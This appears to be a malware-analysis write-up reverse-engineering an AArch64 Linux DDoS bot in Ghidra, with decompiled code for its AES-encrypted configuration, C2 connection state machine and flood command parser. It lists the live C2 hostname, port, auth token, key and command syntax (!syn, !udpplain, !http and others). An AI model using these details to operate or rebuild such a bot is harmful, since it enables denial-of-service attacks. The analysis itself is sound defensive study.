



# 1. Static analysis

The sample was opened in Ghidra, and the automatic analysis was started.

## 1.1 GhidraMAT

I also used my personal tool, [GhidraMAT](https://github.com/HalfTimeOfLife/GhidraMAT), to scan the sample.

> Although most GhidraMAT detection components do not currently support ELF files, string-based detections should remain applicable.

### 1.1.1 Cryptographic findings

GhidraMAT detected three AES-related byte patterns:

| Severity | Category | Technique | Detection method | MITRE ATT&CK |
|---|---|---|---|---|
| HIGH | crypto | `aes_inv_sbox` | `byte_patterns` | T1027.013 |
| MEDIUM | crypto | `aes_rcon` | `byte_patterns` | T1027.013 |
| HIGH | crypto | `aes_sbox` | `byte_patterns` | T1027.013 |

The detected patterns correspond to standard AES lookup tables:

- **AES inverse S-box:** Used during AES decryption. (from `0x0041ed90` to `0x0041ee8f`)
- **AES Rcon:** Round constants used during AES key expansion. (from `0x0041ee90` to `0x0041ee99`)
- **AES S-box:** The standard forward substitution table used by AES. (start at `0x0041f1a0`)

The presence of these tables suggests that the binary contains a native AES implementation. The exact purpose of this implementation was investigated further during the reverse-engineering phase.



### 1.1.2 Anti-VM findings

GhidraMAT also reported two potential anti-VM techniques. However, only one of them is considered valid:

- **`VMWare`:** Valid string-based finding. The string can also be found in [static-analysis/strings/strings_ascii.txt](../static-analysis/strings/strings_ascii.txt).
- **`rdtsc_timing`:** Invalid finding. It is based on the byte sequence `0f 31`, which corresponds to the `RDTSC` instruction on x86. Since the analyzed sample targets ARM64/AArch64, this instruction cannot be used here.



## 1.2 Entry Point

The sample main code can be found at `0x00400140`, it begin by performing several initialization routines before setting up a lock file mechanism.

### 1.2.1 Initialization

The following functions are called during the initial execution phase:

```text
empty_func_1(); 
run_fini_array(); 
FUN_004195c0(); 
auVar10 = FUN_00410fdc(param_1); 
FUN_00400640(); FUN_00405740(); 
FUN_00403680(auVar10._0_8_ & 0xffffffff, auVar10._8_8_); 
FUN_004050c0(); 
FUN_00404b20();
```

Their precise purposes have not yet been determined.

### 1.2.2 File lock

The malware uses a file-based locking mechanism involving `/tmp/.bot_lock`:

```text
  unlinkat_wrapper("/tmp/.bot_lock");
  uVar7 = openat_wrapper("/tmp/.bot_lock",0x42,0x180);
  if (-1 < (int)uVar7) {
    iVar3 = flock_wrapper(uVar7,6);
    ...
  }
```



The file is first removed, then opened or created. The program attempts to acquire a file lock using `flock()`.

The value 6 corresponds to `LOCK_EX | LOCK_NB` on Linux:

- `LOCK_EX`: Request an exclusive lock.
- `LOCK_NB`: Return immediately if the lock cannot be acquired.

I supposed this mechanism prevent multiple instances of the program from running simultaneously.

### 1.2.3 Configuration decryption

The analysis of the `main` function continues with a decryption at `0x004032e0`:

```c
lVar8 = decrypt_with_hex_key(
    "fd00e82a0a3d86af73deacaa9df16432",
    "42480e8feede0e323710211cf2ad792330fc5711be8867891886ec15be8ad601"
);
```

Briefly, this function first calls another function to convert the 32-character hexadecimal string into 16 bytes. These 16 bytes are then used as an AES-128 key to decrypt the second hexadecimal string.

> PoC: This function is reproduced in the [poc/decrypt_with_hex_key/](../poc/decrypt_with_hex_key/) folder.


The decrypted value in this case is:

```text
54128
```

> At this point, this value is suspected to be a port used during a later network configuration phase.

If the decryption succeeds (`lVar8 != 0`), the sample proceeds to the next stage: network setup.

### 1.2.4 Network setup

The beginning of the network setup is listed below:

```c
      uVar4 = atoi_type();
      free_type(lVar8);
      socket_fd = -1;
      local_3c = 2;
      uStack_2c._2_2_ = 0;
      uStack_28 = 0;
      uStack_22 = 0;
      local_3a = 0;
      uStack_32 = 0;
      uStack_2c._0_2_ = 0;
      uStack_20 = 0;
      uStack_1a = 0;
      local_18 = 0;
      uVar2 = swap_bytes?(uVar4);
      local_3a = CONCAT62(local_3a._2_6_,uVar2);
      local_18._4_4_ = 2;
      get_current_time_seconds(0);
      store_time_minus_one();
```

:/ Let's break it down !

First, the sample first converts the decrypted string into an integer:

```c
uVar4 = atoi_type(); // called at 0x004001f8
```

The decompiler does not display the argument passed to `atoi_type()`. However, the AArch64 calling convention passes the first function argument in register `x0`. 

Before the call, the assembly shows that `x0` still contains the pointer returned by `decrypt_with_hex_key`:

```asm
        004001d0 44 0c 00 94     bl         decrypt_with_hex_key
        004001d4 f4 03 00 aa     mov        x20,x0
        004001d8 40 17 00 b4     cbz        x0,LAB_004004c0

...
        004001f8 f0 38 00 94     bl         atoi_type
```

Therefore, the call is effectively equivalent to:

```c
uVar4 = atoi_type(lVar8);
```

where lVar8 points to the decrypted string.

The decrypted buffer is then released:

```c
free_type(lVar8);
```

The local structure is initialized with the value `2` in `local_3c`, which likely corresponds to the `AF_INET` address family:

```c
local_3c = 2;
```

> I will show later when it is used.

The sample initializes a socket descriptor to `-1` (`socket_fd = -1;`) and clears a structure that is later used for network configuration:

```c
      uStack_2c._2_2_ = 0;
      uStack_28 = 0;
      uStack_22 = 0;
      local_3a = 0;
      uStack_32 = 0;
      uStack_2c._0_2_ = 0;
      uStack_20 = 0;
      uStack_1a = 0;
      local_18 = 0;
```

Then, the sample applies a byte-swapping operation to the decrypted integer:

```c
uVar2 = swap_bytes?(uVar4);
```

The resulting value is stored in the previously initialized structure. The structure is likely related to a socket address, although its exact type and purpose require further confirmation. The byte-swapped value is then stored in the lower two bytes of a local structure:


```c
local_3a = CONCAT62(local_3a._2_6_, uVar2);
```

The sample also assigns the value 2 to another field:

```c
local_18._4_4_ = 2;
```

This field represents the state of the malware connection.

The sample then retrieves the current time using a wrapper around the `clock_gettime` system call:

```c
get_current_time_seconds(0);
```

The wrapper invokes `clock_gettime` with clock identifier `0`, corresponding to `CLOCK_REALTIME` on Linux.

Finally, it initializes a global time-related value by updating the global variable `DAT_00869710`:

```c
void store_time_minus_one(int param_1)
{
    DAT_00869710 = (ulong)(param_1 - 1);
}
```

This value may be used for connection timing, retry delays, or timeout management. At this point of the analysis, I don't know what exactly it is used for.

After initializing the network-related structure, the sample enters a state-based connection loop. The state is based on the variable `local_18`, now renamed `CONNECTION_STATE`.

### 1.2.5 Network connection and communication

The malware uses a state machine to manage its network connection and communication phases. The current state is stored in `CONNECTION_STATE`.

The main state transitions are summarized below:

```c
if ((uint)CONNECTION_STATE == 3)
    goto LAB_0040037c;
if ((uint)CONNECTION_STATE < 4) {
    if ((uint)CONNECTION_STATE == 1)
        goto LAB_00400284;
    if ((uint)CONNECTION_STATE == 2)
        goto LAB_00400324;
    goto LAB_0040027c;
}
if ((uint)CONNECTION_STATE == 5)
    goto LAB_0040029c;
if ((uint)CONNECTION_STATE == 6) {
    ...
}
if ((uint)CONNECTION_STATE != 4) {
    do {
        /* Infinite loop */
    } while (true);
}
goto LAB_00400448;
```

#### 1.2.5.0 State 0 : Reroute to state 1

Only initialize the state to `1` then fall to the [State 1](#1251-state-1-destination-address-preparation).

#### 1.2.5.1 State 1: Destination address preparation


The sample calls `prepare_destination_ipv4()` to prepare the destination IPv4 address used by the next connection attempt.

- Call site: `0x0040028c`
- Function: `0x004053e0`

The function first checks whether a cached IPv4 address is available and whether its timestamp is still valid. If the cache is valid, the cached textual address is converted back to binary form and written into the destination structure.

If the cache is unavailable or expired, the function decrypts an embedded hostname:

```c
decrypted_hostname =decrypt_with_hex_key(
     "fd00e82a0a3d86af73deacaa9df16432",
     "95f0d42d6cf96ff5d10e9849f10f5d147f7d4db71389c956bca2fa0fa3d544bd0fdd5ee6fedd243d587811ffdd55a0d3"
     );
```

- Call site: `0x00405430`
- Function: `0x004032e0`

The decrypted hostname is:

```text
opjshdiekmzn.duckdns.org
```

The function then attempts to resolve this hostname into an IPv4 address through `resolve_hostname_to_ipv4()`.

- **Function:** `0x004060a0`
- **Call site:** `0x00405438`

`resolve_hostname_to_ipv4()` uses `custom_getaddrinfo()` to resolve the hostname and `binary_ip_to_string()` to convert the resulting binary IPv4 address into a textual representation.

- **`custom_getaddrinfo()`:** `0x0040a5c4`
- **`binary_ip_to_string()`:** `0x0040a9f0`

Before resolving the hostname, `custom_getaddrinfo()` processes the requested service through `resolve_service()`. When a service name is provided, `resolve_service()` opens and parses `/etc/services` to retrieve the corresponding service port and protocol information.

- **`resolve_service()`:** `0x0040be2c`
- **Configuration file:** `/etc/services`

Once the address is retrieved, the sample return from `resolve_hostname_to_ipv4` to the callee (`prepare_destination_ipv4`) and the resulting address string is copied into the global IPv4 cache by `copy_string_to_ipv4_cache()`.

- **Function:** `0x0040eda8`
- **Call site:** `0x004054a8`

The cache timestamp is then updated.

If the direct resolution attempt fails, the function uses a fallback resolution path after more than five retries. This path calls `custom_getaddrinfo()` directly, extracts the binary IPv4 address from the returned address information structure, converts it to text for caching, and releases the allocated resolution results.

The relevant fallback calls are:

- **`custom_getaddrinfo()`:** `0x0040a5c4`
- **`binary_ip_to_string()`:** `0x0040a9f0`
- **`free_addrinfo_list()`:** `0x0040a55c`

On successful resolution, execution falls through to `STATE4_CHECK` (`LAB_00400440`).
Since `CONNECTION_STATE` was just set to `2`, the `if (CONNECTION_STATE == 4)` guard is false and control returns to the dispatcher:

```c
RESOLUTION_SUCCESS:
  CONNECTION_STATE._0_4_ = 2;
  uVar7 = get_current_time_seconds(0);
  uStack_20 = (undefined6)uVar7;
  uStack_1a = (undefined2)((ulong)uVar7 >> 0x30);
STATE4_CHECK:
  if ((uint)CONNECTION_STATE == 4) {
CMD_SOCKET_MONITOR_ENTRY:
    return_code_preparation_ipv4 = FUN_00405580(&socket_fd);
    if (return_code_preparation_ipv4 == -1) {
      CONNECTION_STATE._0_4_ = 5;
    }
  }
  goto STATE_MACHINE_DISPATCHER;
```

As the `CONNECTION_STATE` was set to `2`, we go back to the dispatcher which make us branch to the second state.

On successful resolution, execution falls through to `STATE4_CHECK`. Since `CONNECTION_STATE` was just set to `2`, the `if (CONNECTION_STATE == 4)` guard is false and control returns to the dispatcher.

If address preparation fails, the state machine transitions to [State 5](#1255-state-5-socket-cleanup-and-retry-preparation), which handles connection failure and retry preparation.

#### 1.2.5.2 State 2: Socket creation and connection attempt

When `CONNECTION_STATE` is set to `2`, the sample creates an IPv4 TCP socket:


```c
socket_fd = socket_wrapper(AF_INET, SOCK_STREAM, 0);
```

If socket creation succeeds, the sample configures the socket options:

```c
iVar3 = configure_socket_options(); // iVar3 = configure_socket_options(socket_fd);
```

The `configure_socket_options()` function applies several socket options.

> Like it was the case for `atoi_type()` the parameter is in `x0` before the call but the decompiler doesn't add an argument to the call.

First, it enables socket keep-alive and address reuse:

```c
setsockopt_wrapper(fd_local, SOL_SOCKET, SO_KEEPALIVE, &opt_val, 4);
setsockopt_wrapper(fd_local, SOL_SOCKET, SO_REUSEADDR, &opt_val, 4);
```

It then configures send and receive timeouts using a 16-byte structure initialized with 45 seconds and 0 microseconds:

```c
struct timeval timeout = {
    .tv_sec = 45,
    .tv_usec = 0
};

setsockopt_wrapper(fd_local, SOL_SOCKET, SO_SNDTIMEO, &timeout, sizeof(timeout));
setsockopt_wrapper(fd_local, SOL_SOCKET, SO_RCVTIMEO, &timeout, sizeof(timeout));
```

The function also configures TCP behavior:

- Enables `TCP_NODELAY`.
- Sets the TCP keep-alive idle time to `30` seconds.
- Sets the keep-alive probe interval to `5` seconds.
- Configures `3` keep-alive probes.
- Sets the socket send and receive buffer sizes to `0xffff`.

The function returns `-1` if one of the mandatory socket options fails. Otherwise, it returns `0`.

If the options configuration succeeds, the sample define a timeout of either `3` seconds or `10` if `uStack_2c` is above `5`:

```c
     timeout = 3;  // previously named uVar4
     if (5 < uStack_2c) {
     timeout = 10;
     }
```

> I supposed `uStack_2c` is like a retry counter, if the connection failed to often then we increase the timeout.

The sample then attempts to connect the socket to the previously configured destination.

#### 1.2.5.3 State 3: Initial communication

In this state, the malware begin by decrypting a string:

```c
decrypted_string =
     decrypt_with_hex_key(
          "fd00e82a0a3d86af73deacaa9df16432",
          "ca02264196d2444f307547d9d6758270f0230b1853eb4b82dc97b0f29401e04f"
     );
```

- Call site: `0x00400388`
- Function: `0x004032e0`

The decrypted string is:

```text
iwannasex123
```

> Elegant :/

It then formats an initial message using the format string `%s %s`, combining the architecture identifier `aarch64` and the decrypted token `iwannasex123`.

The resulting message is stored in a 40-byte buffer and its length is computed using `custom_strlen()`.

The malware then sends this message through `sendto_wrapper_stub()`, which ultimately invokes the Linux `sendto` system call on the previously connected TCP socket.

Because the socket was already connected to the C2 server during [State 2](#1252-state-2-socket-creation-and-connection-attempt), the destination address does not need to be provided again. The message is sent to the server associated with the connected socket:

```c
decrypted_string = custom_strlen(initial_message);
send_result = sendto_wrapper_stub(
     connected_socket_fd,
     initial_message,
     decrypted_string, -> reused variable it corresponds to message_length
     0x4000);
```

- Call site: `0x004003cc`
- Function: `0x0040d370` and `0x0040d494`

The return value is then checked to determine whether the transmission was successful. If it is, `CONNECTION_STATE` is set to `4` and execution jumps to `STATE4_CHECK`. Since the guard is now true, control falls directly into `CMD_SOCKET_MONITOR_ENTRY` without returning to the dispatcher:

```c
CONNECTION_STATE._0_4_ = 4;
goto STATE4_CHECK;
```

If the send fails, the malware decrements the remaining transmission attempt counter and waits one second before retrying. If all three attempts fail, the loop terminates and execution proceeds to the connection failure handling logic.

#### 1.2.5.4 State 4: Command socket monitoring and processing

When the dispatcher sees `CONNECTION_STATE == 4`, it jumps directly to `CMD_SOCKET_MONITOR_ENTRY` (`LAB_00400448`), bypassing `STATE4_CHECK`. `CMD_SOCKET_MONITOR_ENTRY` is therefore reachable via two paths: the dispatcher on subsequent iterations, and `STATE4_CHECK` on the first entry from [State 3](#1253-state-3-initial-communication).

Once the connection reaches State 4, the malware monitors the established command socket using `ppoll()`. It periodically sends a four-byte `PING` message and waits for incoming data or socket events.

```c
current_time_and_received_bytes = get_current_time_seconds(0);
if (3 < current_time_and_received_bytes - last_ping_timestamp) {
    ping_send_result = sendto_wrapper_stub(
        *socket_fd,
        &PING_MESSAGE,
        4,          // PING message is 4 bytes long
        0x4000);
    last_ping_timestamp = current_time_and_received_bytes;
}
...
poll_timeout_and_result = ppoll_wrapper(&monitored_socket_fd, 1, poll_timeout_and_result);
```

When data is received, the buffer is null-terminated and passed to `process_command`, which is responsible for processing the received command.

```c
if ((local_402 & 1) != 0) {
    current_time_and_received_bytes = recvfrom_wrapper(*socket_fd, auStack_400, 0x3ff, 0);
    ...
    uVar1 = *socket_fd;
    auStack_400[current_time_and_received_bytes] = 0;   // null-terminates the received buffer
    process_command(auStack_400, uVar1);
    memset_type(auStack_400, 0, 0x400);
}
```

- Call site: `0x00405724` (`bl` in `monitor_command_socket`)
- Function: `0x004058c0` (`process_command`)

**Control commands**

The command handler supports several control messages.

A `PING` command causes the malware to send a response formatted as `pong aarch64`. Not exactly a stealthy handshake.

The `STOP_COMMAND` causes the current attack state to be stopped and cleaned up through `stop_and_cleanup_attacks`.

```c
iVar1 = strcmp_custom(received_command, &STOP_COMMAND);
if (iVar1 == 0) {
    stop_and_cleanup_attacks();
    return;
}
```

- Call site: `0x00405a24` (`b` tail-call in `process_command`, not `bl`)
- Function: `0x004057c0` (`stop_and_cleanup_attacks`)

**Attack commands**

For attack commands, the function identifies the requested attack type by comparing the received command against a predefined set of command prefixes:

- `!udpcustom`
- `SYN_COMMAND` = `!syn`
- `ACK_COMMAND` = `!ack`
- `!http`
- `!udpplain`
- `!icmp`
- `GRE_COMMAND` = `!gre`

Each command is mapped to an integer attack type ranging from 0 to 6. The selected type is later used to retrieve the corresponding attack handler from the attack-handler table.

> PoC: the command protocol (prefixes, `attack_command_type` values, and the associated attack functions) is reproduced in the [`poc/command-dispatch/`](../poc/command-dispatch/) folder, as two Python scripts, one playing the malware client and one playing the C2 server.

The command format depends on the attack type. ICMP and GRE commands use the following general format:

```text
<command> <destination> <duration> [options]
```

Other attack commands additionally contain a parsed attack parameter:

```text
<command> <destination> <parameter> <duration> [options]
```

The destination is parsed as an IPv4 address, while the duration and optional attack parameters are converted from their textual representation. If the command contains options, they are processed individually.

The parser recognizes options related to:

- packet size (`psize=`)
- source port (`srcport=`)
- transport protocol (`proto=`)
- payload (`payload=`)
- destination port (`gport=`)

The `proto=` option accepts `tcp` and `udp`, which are internally represented by the values 1 and 2, respectively. However, this option is parsed generically, and its actual effect depends on the selected attack handler.

Before creating a new attack configuration, the function invokes `stop_and_cleanup_attacks` to stop and clean up any previously active attack.

```c
stop_and_cleanup_attacks();
```

- Call site: `0x00405e10` (`bl` in `process_command`)
- Function: `0x004057c0` (`stop_and_cleanup_attacks`)

The function also invokes `FUN_00410024` as part of the attack-state synchronization process.

```c
stop_and_cleanup_attacks();
FUN_00410024(&DAT_00869100);
```

- Call site: `0x004058c0` (`process_command`)
- Function: `0x00410024` (`FUN_00410024`)

It then allocates and initializes an attack-configuration structure using `FUN_00408b30`. The structure contains the parsed destination address and attack parameters. The destination address is converted from its textual representation using `custom_inet_pton`.

```c
if (attack_format_type == 1) {
    // ICMP / GRE configuration structure allocation (0x24 bytes)
    attack_configuration = (undefined2 *)FUN_00408b30(1, 0x24);
    if (attack_configuration != NULL) {
        *attack_configuration = 2; // AF_INET
        inet_pton_result = custom_inet_pton(2, &destination_address, attack_configuration + 2);
        if (inet_pton_result == 1) {
            *(undefined4 *)(attack_configuration + 8)  = attack_duration;
            *(undefined4 *)(attack_configuration + 10) = 1;
        }
    }
} else {
    // Generic attack configuration structure allocation (0x30 bytes)
    attack_configuration = (undefined2 *)FUN_00408b30(1, 0x30);
    if (attack_configuration != NULL) {
        *attack_configuration = 2; // AF_INET
        attack_configuration[1] = swap_bytes(parsed_attack_parameter);
        inet_pton_result = custom_inet_pton(2, &destination_address, attack_configuration + 2);
        if (inet_pton_result == 1) {
            *(undefined4 *)(attack_configuration + 8)  = attack_duration;
            *(undefined4 *)(attack_configuration + 12) = packet_size;
            *(ushort *)(attack_configuration + 14)     = source_port;
            if (payload_buffer != 0) {
                *(undefined8 *)(attack_configuration + 0x14) = strdup_custom(payload_buffer);
            }
        }
    }
}
```

- Call site: `0x004058c0` (`process_command`)
- Function: `0x00408b30` (`FUN_00408b30`)
- Call site: `0x004058c0` (`process_command`)
- Function: `custom_inet_pton`

For the generic attack format, the parsed source port and protocol values are packed into the attack configuration:

```c
*(uint *)(attack_configuration + 0xe) =
    (uint)source_port | protocol_type << 0x10;
```

The selected attack handler is retrieved from the attack-handler table using the attack type as an index:

```c
(&PTR_attack_handlers_0041f740)[
    (long)attack_command_type * 3
]
```

| `attack_command_type` | Command prefix | Handler function | Address |
|---|---|---|---|
| 0 | `!udpcustom` | `send_udp_packets` | `0x00407f20` |
| 1 | `SYN_COMMAND` | `send_tcp_syn_packets` | `0x00407d00` |
| 2 | `ACK_COMMAND` | `send_tcp_ack_packets` | `0x004061a0` |
| 3 | `!http` | `send_http_requests` | `0x00406980` |
| 4 | `!udpplain` | `send_udp_plain_packets` | `0x00408120` |
| 5 | `!icmp` | `send_icmp_packets` | `0x00407860` |
| 6 | `GRE_COMMAND` | `send_gre_packets` | `0x004063c0` |

The selected handler and the attack configuration are then passed to `task_manage`, which registers the attack handler as a task.

`task_manage` spawns a thread for the attack handler (stack allocation via `mmap`, thread-control-block setup, and a `clone`-style syscall), then tracks it in a doubly-linked list of running attack threads (`attack_task_list`) so it can later be torn down by `stop_and_cleanup_attacks`.

- Call site: `0x004058c0` (`process_command`)
- Function: `0x0040f974` (`task_manage`)

If task registration succeeds, the malware marks the attack as active and stores a reference to its configuration:

```c
if (iVar1 == 0) {
    attack_active._0_4_ = 1;
    active_attack_configuration = attack_configuration;
    attack_active._4_4_ = attack_status;
}
```

Before returning from the command-processing function, a final synchronization/cleanup step is performed.

```c
LAB_00405b70:
    FUN_0041044c(&DAT_00869100);
    return;
```

- Call site: `0x004058c0` (`process_command`)
- Function: `0x0041044c` (`FUN_0041044c`)

`monitor_command_socket()` returns `-1` to signal a connection error or unexpected disconnection, at which point the state machine transitions to [State 5](#1255-state-5-socket-cleanup-and-retry-preparation):

```c
return_code = monitor_command_socket(&socket_fd);
if (return_code == -1) {
    CONNECTION_STATE._0_4_ = 5;
}
goto STATE_MACHINE_DISPATCHER;
```

As long as the function returns successfully, execution loops back to the dispatcher and State 4 is re-entered, keeping the bot in a persistent listening loop.

#### 1.2.5.5 State 5: Socket cleanup and retry preparation

State 5 is entered via `goto LAB_0040029c`, here renamed `SOCKET_TEARDOWN_RETRY_PREP`. It handles socket teardown and prepares the next reconnection attempt.

If the socket is still open, it is shut down and closed:

```c
if (socket_fd != -1) {
    FUN_0040d4f0(socket_fd, 2); // shutdown(socket_fd, SHUT_RDWR)
    close_wrapper(socket_fd);
    socket_fd = -1;
}
```

The retry counter is then incremented, and a randomized backoff duration is computed.
The jitter prevents synchronized reconnection storms (thundering herd):

| `retry_counter` | Formula | Range |
|---|---|---|
| < 4 | `rand() % 2 + 2` | [2, 3] s |
| [4, 10] | `rand() % 8 + 15` | [15, 22] s |
| [11, 20] | `rand() % 31 + 60` | [60, 90] s |
| ≥ 21 | `rand() % 151 + 300` | [300, 450] s |

The computed duration is stored in `CONNECTION_STATE._4_4_` and the state transitions to 6.

#### 1.2.5.6 State 6: Retry delay

State 6 has no explicit `goto` label in the dispatcher. It is reached by fall-through from the `if ((uint)CONNECTION_STATE == 6)` branch. Inside the loop, `LAB_00400320` marks the reconnection path that bypasses hostname re-resolution; it is here renamed `RECONNECT_SKIP_RESOLUTION`.

In this state, the malware sleeps for the duration computed in [State 5](#1255-state-5-socket-cleanup-and-retry-preparation):

```c
sleep_for_duration(CONNECTION_STATE._4_4_);
```

After waking, the next state depends on `retry_counter`:

- If `retry_counter < 11`: transition directly to [State 2](#1252-state-2-socket-creation-and-connection-attempt) (socket creation), reusing the cached IP.
- If `retry_counter ≥ 11`: check time elapsed since the last successful hostname resolution.
  If less than 601 seconds, transition to [State 2](#1252-state-2-socket-creation-and-connection-attempt). Otherwise, transition to [State 1](#1251-state-1-destination-address-preparation) (re-resolve the C2 hostname).

```c
if (retry_counter < 0xb) goto RECONNECT_SKIP_RESOLUTION;
elapsed = get_current_time_seconds(0) - last_resolution_timestamp;
if (elapsed < 0x259) goto RECONNECT_SKIP_RESOLUTION;
// else: SET_STATE_PREPARING_ADDRESS → State 1

RECONNECT_SKIP_RESOLUTION:
    CONNECTION_STATE._0_4_ = 2; // → State 2
```

This avoids redundant DNS resolution on transient disconnections while ensuring the cached C2 address is refreshed after extended failure periods (~10 minutes).
